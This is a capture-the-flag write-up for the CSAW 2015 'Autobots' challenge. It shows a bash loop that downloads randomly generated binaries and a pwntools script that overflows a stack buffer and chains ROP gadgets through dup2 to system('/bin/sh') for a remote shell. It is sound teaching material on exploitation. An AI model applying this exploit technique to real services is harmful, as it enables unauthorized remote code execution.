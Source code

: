 ```yaml
---
title:      CSAW 2015 - Autobots
author:     conand & marcof
pubDate:       September 24 2015 18:00:00
description:    Automated bot exploiting buffer overflow.
categories: CSAW2015 Exploitables
heroImage: /writeup_images/csaw15.png
tags:
 - CSAW
 - Exploitables
 - ROP
---
```


> I hear bots are playing ctfs now.
Note: Aslr has now been disabled for this challenge



The challenge did not provide any binary but just a remote service.
Connecting to the remote service we got an ELF:

    $ nc 52.20.10.244 8888 > binary
    $ file binary
    binary: ELF 64-bit LSB  executable, x86-64, version 1 (SYSV), dynamically linked (uses shared libs), for GNU/Linux 2.6.24, BuildID[sha1]=c9977e6ab77d506a99fd04551f255e27198584db, not stripped

Decompiling we easily found out that the executable spawned another service reading our input and writing back to the socket the same input.

```c
int __cdecl main(int argc, const char **argv, const char **envp)
{
  size_t v3; // rax@1
  int result; // eax@1
  __int64 v5; // [sp-100h] [bp-100h]@1
  __int64 v6; // [sp-F0h] [bp-F0h]@1
  int v7; // [sp-8h] [bp-8h]@1
  int v8; // [sp-4h] [bp-4h]@1

  v8 = socket(2, 1, 0);
  memset(&v5, 0, 0x10uLL);
  LOWORD(v5) = 2;
  HIDWORD(v5) = htons(0);
  WORD1(v5) = htons(0x5155u);
  bind(v8, (const struct sockaddr *)&v5, 0x10u);
  listen(v8, 10);
  v7 = accept(v8, 0LL, 0LL);
  read(v7, &v6, 0x13BuLL);
  v3 = strlen((const char *)&v6);
  write(v7, &v6, v3 + 1);
  sub_40086F();
  return result;
}
```

We noticed that the executables provided by the server were always different and ran on the remote host for about 1 second.
Downloading more binaries we noted that the only differences in the binaries were the service port, the dimension of the buffer, and the number of bytes read.  
These parameters were randomly generated, leading sometimes to a buffer overflow.
Hence, the idea was to query the server until a vulnerable executable is generated.

    $ checksec.sh --file binary
    RELRO           STACK CANARY      NX           PIE      RPATH      RUNPATH     FILE
    Partial RELRO   No canary found   NX enabled   No PIE   No RPATH   No RUNPATH  binary 

NX was enabled on the binaries but there was no canary. Let's ROP!

We grabbed libc from the server hosting Exploitables250 in the hope that it was the same also for this challenge, and it was. The challenge description stated ASLR had been disabled, so we did not need any memory leak to obtain a reference to the libc. 

We wrote a bash script to download the executables, parse the output of `objdump`, grep the randomly generated parameters, and pass them to the python exploit.

```bash
#!/bin/bash

HOST=52.20.10.244
PORT=8888

while true; do
    nc ${HOST} ${PORT} > qweqwe
    NEW_PORT=`objdump -d qweqwe | grep -n1 htons | tail -3 | head -1 | grep -o -P '(?<=0x).*(?=,)'`
    BUFF_SIZE=`objdump -d qweqwe | grep lea | tail -4 | head -1 | grep -o -P '(?<=0x).*(?=\()'`
    READ_SIZE=`objdump -d qweqwe | grep mov | tail -n15 | head -1 | grep -o -P '(?<=0x).*(?=,)'`

    NEW_PORT_INT=`printf "%d\n" 0x${NEW_PORT}`
    BUFF_SIZE_INT=`printf "%d\n" 0x${BUFF_SIZE}`
    READ_SIZE_INT=`printf "%d\n" 0x${READ_SIZE}`

    python exploit.py $NEW_PORT_INT $BUFF_SIZE_INT $READ_SIZE_INT
done
```

The python exploit simply checks if the service is vulnerable and, if so, builds the ROP chain to execute `system("/bin/sh")`.
We used [ropper](https://github.com/sashs/Ropper) to find the gadgets in the libc.
Since our input was bound to the socket we called `dup2` to attach the socket to stdin/stdout.

Flag: `flag{c4nt_w4it_f0r_cgc_7h15_y34r}`.

```python
from pwn import *
from binascii import hexlify
import sys

host = '52.20.10.244'
port = int(sys.argv[1])
buff_size = int(sys.argv[2])
read_size = int(sys.argv[3])

if read_size <= buff_size + 160:
    exit()

print "VULNERABLE!"

conn = remote(host, port)

read_ref = 0x00007ffff7b00800 # address of read in libc
read_offset = 0xeb800 # offset of read in libc

binsh_offset = 0x17ccdb
gadget_offset = 0x22b1a     # pop rdi
gadget2_offset = 0x24805    # pop rsi
dup2_offset = 0xebfe0
system_offset = 0x46640

my_fd = 6 # file descriptor

payload = "A"*(buff_size + 8)

# ROP chain
payload += p64(read_ref - read_offset + gadget_offset)
payload += p64(my_fd)
payload += p64(read_ref - read_offset + gadget2_offset)
payload += p64(0)
payload += p64(read_ref - read_offset + dup2_offset)

payload += p64(read_ref - read_offset + gadget_offset)
payload += p64(my_fd)
payload += p64(read_ref - read_offset + gadget2_offset)
payload += p64(1)
payload += p64(read_ref - read_offset + dup2_offset)

payload += p64(read_ref - read_offset + gadget_offset)
payload += p64(read_ref - read_offset + binsh_offset)
payload += p64(read_ref - read_offset + system_offset)

conn.send(payload)

conn.interactive()
```
